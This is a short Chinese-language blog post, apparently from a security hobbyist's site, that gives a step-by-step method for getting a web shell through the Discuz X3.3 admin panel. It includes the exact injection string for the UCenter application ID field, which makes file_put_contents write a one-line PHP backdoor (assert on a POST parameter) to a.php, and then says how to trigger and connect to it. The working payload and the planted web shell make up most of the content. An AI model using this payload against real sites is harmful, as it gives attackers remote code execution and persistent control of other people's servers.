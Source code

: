 ```yaml
---
title: "discuz 后台 getshell"
date: 2017-12-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


适用于 Discuz X3.3 及之前版本

<!--more-->

站长 - Ucenter 设置 - Ucenter 应用 ID

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512699.jpg)

填入代码

`123');file_put_contents('a.php','<?php assert($_POST[a])?>');//`

保存

本地查看 config_ucenter.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512701.jpg)

访问 /config/config_ucenter.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512703.jpg)

空白

file_put_contents 执行成功

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512704.jpg)

连接 a.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512707.jpg)